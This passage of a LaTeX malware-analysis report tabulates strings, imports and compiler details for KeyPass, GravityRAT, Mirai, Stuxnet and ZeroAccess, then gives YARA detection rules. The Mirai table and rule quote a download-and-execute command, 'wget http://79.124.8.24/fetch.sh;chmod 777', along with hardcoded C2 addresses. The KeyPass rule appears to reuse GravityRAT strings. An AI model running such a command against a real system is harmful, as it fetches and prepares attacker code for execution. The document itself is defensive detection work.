    \texttt{SHELL32.dll}, \texttt{SHLWAPI.dll}, \texttt{ole32.dll}, \texttt{OLEAUT32.dll} & Windows shell and OLE operations, enabling execution of external commands. \\
    \hline
    \texttt{PSAPI.dll} & Process enumeration, possibly for identifying targets to encrypt. \\
    \hline
    \texttt{WINSPOOL.DRV} & Print driver interface, which can be abused for persistence. \\
    \hline
  \end{tabular}
  \caption{Imports from the KeyPass binary.}
  \label{tab:keypass-imports}
\end{table}

\begin{table}[H]
  \centering
  \begin{tabular}{|p{2cm}|p{6cm}|}
    \hline
    \textbf{Section} & \textbf{Interpretation} \\
    \hline
    .text & Main program code.\\
    \hline
    .rdata & Contains read-only constants such as API references and encryption strings. \\
    \hline
    .data & Stores runtime variables, such as possible keys or ransom note text. \\
    \hline
    .rsrc & Resource section. Could contain icons, or other assets. \\
    \hline
    .reloc & Relocation data, required for loading the binary at different memory addresses. \\
    \hline
  \end{tabular}
  \caption{Sections in the KeyPass binary.}
  \label{tab:keypass-sections}
\end{table}
 
\subsection{GravityRAT}
\subsubsection{Summary of Embedded Strings}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{5cm}|p{2cm}|p{6cm}|}
    \hline
    \textbf{String / Artifact} & \textbf{Category} & \textbf{Interpretation for GravityRAT} \\
    \hline
    \texttt{<EthernetId>}, \texttt{<MatchMacAdd>}, \texttt{TargetInstance ISA 'Win32\_LogicalDisk'} & System fingerprinting & Used to collect hardware IDs for victim profiling or anti-VM checks. \\
    \hline
    \texttt{IsZip64Forced}, \texttt{WindowFilled}, \texttt{get\_IsScanned} & File handling & Suggests compression and scanning to likely package stolen files for exfiltration. \\
    \hline
    \texttt{RijndaelManaged}, \texttt{Aes192}, \texttt{Aes256}, \texttt{TripleDes168}, \texttt{Adler32}, \texttt{AddExtraDataAES} & Cryptography & Multiple algorithms indicate layered encryption/hashing for data exfiltration and C2 traffic. \\
    \hline
    \texttt{<UploadServer>}, \texttt{DriveUpload}, \texttt{DRIVEUPLOADCOMPLETED}, \texttt{DRIVE-SCAN-NOT-COMPLETED-ADD-TASK AGAIN-WHEN-COMPLETED} & Exfiltration & Bulk file upload with task tracking and retry logic, showing persistence in data theft. \\
    \hline
    \texttt{netstat -a}, \texttt{command}, \texttt{RawPassword} & Command execution & Allows system command execution, network monitoring, and password theft. \\
    \hline
    \texttt{DONT-RESOLVE\_DLL\_REFERENCE} & Anti-analysis / persistence & Loads DLLs without resolving imports to evade detection. \\
    \hline
  \end{tabular}
  \caption{Summary of embedded strings in the GravityRAT binary.}
  \label{tab:gravityrat-strings}
\end{table}

\subsubsection{Summary of Compiler Information}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{3cm}|p{3cm}|p{6cm}|}
    \hline
    \textbf{Property} & \textbf{Value} & \textbf{Interpretation} \\
    \hline
    Operating System & Windows 95 & Indicates targeting of legacy Windows platforms, consistent with early variants. \\
    \hline
    Compiler & Microsoft Visual C\# (.NET 4.0.3) & GravityRAT uses .NET’s cryptographic and networking libraries. \\
    \hline
    Linker & Microsoft Linker & Standard Windows build tool. \\
    \hline
    Language & C\# & Use of a high-level language. \\
    \hline
    Average Entropy & 6.8 & 85\% of the file reported as packed.\\
    \hline
  \end{tabular}
  \caption{Compiler information for the GravityRAT binary.}
  \label{tab:gravityrat-compiler}
\end{table}

\subsubsection{Imports and Sections}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{2cm}|p{8cm}|}
    \hline
    \textbf{Section} & \textbf{Interpretation} \\
    \hline
    \texttt{.text} & Code section, heavily packed (entropy 8.0). \\
    \hline
    \texttt{.rsrc} & Resources section, may contain embedded configs or icons.\\
    \hline
    \texttt{.reloc} & Relocation section, standard in PE files. \\
    \hline
  \end{tabular}
  \caption{Summary of sections in the GravityRAT binary.}
  \label{tab:gravityrat-sections}
\end{table}

\subsection{Mirai}
\subsubsection{Summary of Embedded Strings}
\begin{table}[H]
  \centering
  \label{tab:mirai-strings}
  \begin{tabular}{|p{4cm}|p{2.5cm}|p{1.5cm}|p{6cm}|}
    \hline
    \textbf{String / Artifact} & \textbf{What it Represents} & \textbf{Figure} & \textbf{Interpretation for Mirai} \\
    \hline
    HTTP methods: \texttt{GET}, \texttt{POST} & Web request methods & Fig.~\ref{fig:mirai-network-info} & Used for HTTP communication to a C2 server \\
    \hline
    \texttt{Cookie: PHPSESSID} & PHP session cookie & Fig.~\ref{fig:mirai-php-cookie} & Suggests Mirai maintains stateful sessions with its C2 server \\
    \hline
    \texttt{79.124.8.24} and \texttt{79.124.18.20} & Hardcoded IP addresses & Fig.~\ref{fig:mirai-ip-add-1} and Fig.~\ref{fig:mirai-ip-add-2} & Bypasses DNS lookups and potentially calls to C2 servers \\
    \hline
    \texttt{<NewRemoteHost>} and \texttt{<NewProtocol>TCP} & Embedded configuration fields & Fig.~\ref{fig:mirai-remote-host} & Possible preconfigured C2 host and TCP protocol settings \\
    \hline
    \texttt{SOAPAction: http://purenetworks.com} & SOAP web service call & Fig.~\ref{fig:mirai-remote-host} & Disguises traffic as SOAP to possibly target SOAP IoT devices \\
    \hline
    \texttt{SOAPAction: urn:schemas-upnp} & UPnP SOAP action & Fig.~\ref{fig:mirai-remote-host} & Suggests Mirai spreads via UPnP exploitation on IoT devices \\
    \hline
    \texttt{/proc/net/tcp} & Linux system file listing TCP sockets & Fig.~\ref{fig:mirai-ip-add-2} & Used to scan or monitor active network connections to potentially spread \\
    \hline
    \texttt{iotsecurity.xyz} & Hardcoded domain & Fig.~\ref{fig:mirai-ip-add-2} & A possible C2 domain \\
    \hline
    \texttt{wget http://79.124.8.24/ fetch.sh;chmod 777} & Shell command & Fig.~\ref{fig:mirai-ip-add-1} & Downloads a shell script and makes it executable. \\
    \hline
    \texttt{GET /linuxki443/ experimental/vis /ki443vis.php} & PHP script path on a remote server & Fig.~\ref{fig:mirai-ip-add-1} & Used to contact a PHP script, possibly for receiving commands or downloading payloads \\
    \hline
  \end{tabular}
  \caption{Detailed summary of embedded strings in the Mirai binary.}
\end{table}

\subsubsection{Summary of Compiler Information}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{4cm}|p{2.5cm}|p{1.5cm}|p{6cm}|}
    \hline
    \textbf{Category} & \textbf{Binary Data} \\
    \hline
    Operating System & Debian Linux \\
    \hline
    Compiler & GCC 3.3.2 \\
    \hline
    Language & C/C++ \\
    \hline
    File Type & ELF32 \\
    \hline
    Average Entropy & 6.2 \\
    \hline
  \end{tabular}
  \caption{Summary of Compiler Information for Mirai.}
  \label{tab:mirai-strings}
\end{table}

\subsubsection{Entropy Graph}
\begin{figure}[H] 
  \centering
  
\includegraphics[width=1.3\textwidth]{mirai/entropy.jpeg}
  \caption{Entropy graph for Mirai binary.}
  \label{fig:mirai-entropy-jpeg}
\end{figure}


\subsection{Stuxnet}
\subsubsection{Summary of Embedded Strings}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{5cm}|p{3cm}|p{6cm}|}
    \hline
    \textbf{String / Artifact} & \textbf{What it Represents} & \textbf{Interpretation for Stuxnet} \\
    \hline
    \texttt{/SystemRoot/System32/hal.dll}, \texttt{HAL.dll} & Hardware Abstraction Layer DLL & Indicates that the malware interacts directly with the hardware abstraction layer, suggesting that it accesses the kernel which normally is only required by drivers or system components. \\
    \hline
    \texttt{ntoskrnl.exe}, \texttt{ntkrnlpa.exe}, \texttt{ntdll.dll} & Core Windows kernel/runtime files & The presence of these core system components shows that Stuxnet is designed to interface with and potentially manipulate parts of the Windows kernel, rather than operating as a standard application. \\
    \hline
    \texttt{ZwQuerySystemInformation}, \texttt{ZwAllocateVirtualMemory}, \texttt{IoFreeWorkItem} & NT system calls & These are low level NT API functions which give the malware the ability to query system state, allocate memory in privileged contexts, and manage kernel work items. \\
    \hline
    \texttt{/DosDevices/GpdDev} & Device related string & Suggests that the malware may be targeting or interacting with specific devices or drivers, consistent with Stuxnet’s role in attacking industrial control systems (PLCs). \\
    \hline
  \end{tabular}
  \caption{Summary of embedded strings in the Stuxnet binary.}
  \label{tab:stuxnet-strings}
\end{table}

\subsubsection{Summary of Compiler Information}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{2cm}|p{4cm}|p{6cm}|}
    \hline
    \textbf{Property} & \textbf{Value} & \textbf{Interpretation} \\
    \hline
    Operating System & Windows Vista & Indicates the malware was built for Windows environments \\
    \hline
    Compiler & Microsoft Visual C/C++ with Visual Studio 2005 & Professional toolchain, typical for when it was developed \\
    \hline
    Language & C/C++ & chosen for low level features \\
    \hline
  \end{tabular}
  \caption{Compiler information for the Stuxnet binary.}
  \label{tab:stuxnet-compiler}
\end{table}

\subsection{ZeroAccess}
\subsubsection{Summary of Compiler Information}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{4cm}|p{2cm}|p{6cm}|}
    \hline
    \textbf{Property} & \textbf{Value} & \textbf{Interpretation} \\
    \hline
    Operating System & Windows 95 & Indicates a legacy Windows environment \\
    \hline
    File Type & PE32 & Standard Windows executable format \\
    \hline
    Average Entropy & 7.6 & Very high entropy, consistent with packing or encryption (95\% of file packed) \\
    \hline
  \end{tabular}
  \caption{Compiler information for the ZeroAccess binary.}
  \label{tab:zeroaccess-compiler}
\end{table}

\subsubsection{Summary of Imports and Sections}
\begin{table}[H]
  \centering
  \begin{tabular}{|p{4cm}|p{8cm}|}
    \hline
    \textbf{File Name} & \textbf{Interpretation} \\
    \hline
    \texttt{OLEAUT32.dll} & Can be used to interact with COM objects or scripting, which malware can exploit for persistence. \\
    \hline
    \texttt{KERNEL32.dll} & Core Windows API library. Critical for process injection and code execution. \\
    \hline
    \texttt{SETUPAPI.dll} & Windows Setup API which is used to query or manipulate device and driver properties. Its presence suggests possible tampering with drivers or registry entries. \\
    \hline
    \texttt{USER32.dll} & Provides user interface functions. ZeroAccess could use this to send hidden messages to processes. \\
    \hline
  \end{tabular}
  \caption{Summary of imports and sections in the ZeroAccess binary.}
  \label{tab:zeroaccess-imports}
\end{table}

\subsection{gVim}
\subsubsection{Summry of Compiler Information}
\subsubsection{Summary of Imports and Sections}
\subsubsection{Summary of Embedded Strings}

\subsection{Cppcheck}
\subsubsection{Summry of Compiler Information}
\subsubsection{Summary of Imports and Sections}
\subsubsection{Summary of Embedded Strings}

\subsection{GIMP}
\subsubsection{Summry of Compiler Information}
\subsubsection{Summary of Imports and Sections}
\subsubsection{Summary of Embedded Strings}

\subsection{SWI Prolog}
\subsubsection{Summry of Compiler Information}
\subsubsection{Summary of Imports and Sections}
\subsubsection{Summary of Embedded Strings}

\subsection{balenaEtcher}
\subsubsection{Summry of Compiler Information}
\subsubsection{Summary of Imports and Sections}
\subsubsection{Summary of Embedded Strings}

\section{Task 3}
\subsection{KeyPass Rule}

\begin{lstlisting}[language=]
rule KeyPass_Rule
{
    meta:
        description = "Detects KeyPass ransomware using ransom text, crypto APIs, and system calls"
        author = "Hayley Dodkins"
        malware_type = "Ransomware"
        reference = "KeyPass ransomware analysis (Kaspersky, 2018)"

    strings:
        $note_file = "!!!DECRYPTION_KEYPASS_INFO!!!.txt"
        $ransom_text1 = "All your files, documents, photos, databases"
        $ransom_text2 = "Price for decryption $300"
        $ransom_text3 = "Very big trouble!!!!!!!"
        $contact = "@bitmessage.ch"

        $crypto1 = "RijndaelManaged"
        $crypto2 = "Aes192"
        $crypto3 = "Aes256"
        $crypto4 = "TripleDes168"
        $crypto5 = "Adler32"
        $crypto6 = "AddExtraDataAES"

        $api1 = "RegOpenKeyTransactedW"
        $api2 = "ActivateActCtx"
        $api3 = "DeactivateActCtx"
        $api4 = "QueryActCtxW"

        $drive1 = "DRIVEUPLOADCOMPLETED"
        $drive2 = "DRIVE-SCAN-NOT-COMPLETED"
        $drive3 = "DriveUpload"

        $dll1 = "Comctl32.dll"
        $dll2 = "UxTheme.dll"
        $dll3 = "gdiplus.dll"

    condition:
        $note_file and any of ($ransom_text*) and $contact
        and
        2 of ($crypto*)
        and
        1 of ($api*)
        and
        (any of ($drive*) or any of ($dll*))
}
\end{lstlisting}

\subsubsection{Rule against benigin applications}
\subsubsection{Rule against other malware types}

\subsection{Mirai Rule}
\begin{lstlisting}[language=]
rule Mirai_Rule
{
    meta:
        description = "Detects Mirai-like IoT botnet binaries with HTTP C2 and embedded configs"
        author = "Hayley Dodkins"
        malware_type = "Botnet"

    strings:
        $http_get = "GET"
        $http_post = "POST"
        $cookie = "Cookie: PHPSESSID"

        $soap = "SOAPAction:"
        $soap2 = "urn:schemas-upnp"
        $purenet = "http://purenetworks.com"

        $ip1 = "79.124.8.24"
        $ip2 = "79.124.18.20"

        $xml1 = "</NewRemoteHost>"
        $xml2 = "eHost>"
        $xml3 = "<NewProtocol>TCP"

        $procnet = "/proc/net/tcp"
        $wget = "wget http://79.124.8.24/fetch.sh;chmod 777"
        $domain = "iotsecurity.xyz"

    condition:
        all of them
}

\end{lstlisting}

\subsubsection{Rule against benigin applications}
\subsubsection{Rule against other malware types}

\subsection{GravityRAT Rule}
\begin{lstlisting}[language=]
rule GravityRAT_Rule
{
    meta:
        description = "Detects GravityRAT samples using encryption, exfiltration tags, and RAT behaviors"
        author = "Hayley Dodkins"
        malware_type = "Remote Access Trojan"

    strings:
        $aes1 = "RijndaelManaged"
        $aes2 = "AES192"
        $aes3 = "AES256"
        $aes4 = "TripleDes168"

        $upload = "DriveUpload"
        $server = "<UploadServer>"
        $ether = "<EthernetId>"
        $mac = "<MatchMacAdd>"
        $netstat = "netstat -a"

        $disk = "Win32_LogicalDisk"
        $rawpass = "RawPassword"

        $string1 = "DRIVE-SCAN-NOT-COMPLETED-ADD-TASK AGAIN-WHEN-COMPLETED"
        $string2 = "DONT-RESOLVE_DLL_REFERENCE"

    condition:
       all of them 
}
\end{lstlisting}

\subsubsection{Rule against benigin applications}
\subsubsection{Rule against other malware types}

\bibliographystyle{plain}        
\bibliography{bibliography}    

\end{document}
